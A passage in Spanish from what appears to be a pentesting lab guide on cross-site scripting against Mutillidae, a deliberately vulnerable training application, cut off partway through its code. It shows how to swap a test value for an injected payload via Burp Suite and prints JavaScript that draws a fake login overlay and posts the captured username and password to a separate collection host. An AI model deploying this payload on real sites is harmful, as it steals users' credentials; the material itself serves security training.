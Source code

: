 Pondremos el `Burp Suite` a escuchar y una vez enviada la peticion, pondremos el codigo codificado reemplazando la palabra `canario` o lo que hayamos metido del popup, quedando algo asi:

<figure><img src="../../.gitbook/assets/image (94) (1).png" alt=""><figcaption></figcaption></figure>

Pero en el codigo tendremos que reemplazar todas las comillas simples (`'`) por comillas dobles (`"`) por que si no dara error.

```html
<div id="modal" style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:black;opacity:.5;z-index:999998;">&nbsp;</div>
	<div style="margin:5% auto;width:100%;position:fixed;top:5%;left:5%;z-index:9999999;">
	<div id="idlogin" style="width:405px;position:relative;margin:0 auto;background-color:white;padding:10px;border:1px solid black;">
	<script>
	function capture(theForm){
		var lXMLHTTP;
		try{
			var lData = "username=" + theForm.username.value + "&password=" + theForm.password.value;
			var lHost = "192.168.5.177";
			var lProtocol = "http";
			var lAction = lProtocol + "://" + lHost + "/mutillidae/src/index.php?page=capture-data.php";
			var lMethod = "post";
			try{
				lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
			}catch (e){
				try{
					lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
				}catch(e) {
					try{
						lXMLHTTP = new XMLHttpRequest();
					}catch (e) {
						alert(e.message);
					};//end try
				};//end try
			};//end try

			lXMLHTTP.onreadystatechange = function(){
				if(lXMLHTTP.readyState == 4){
					theForm.parentNode.style.display="none";
				}// end if
			};

```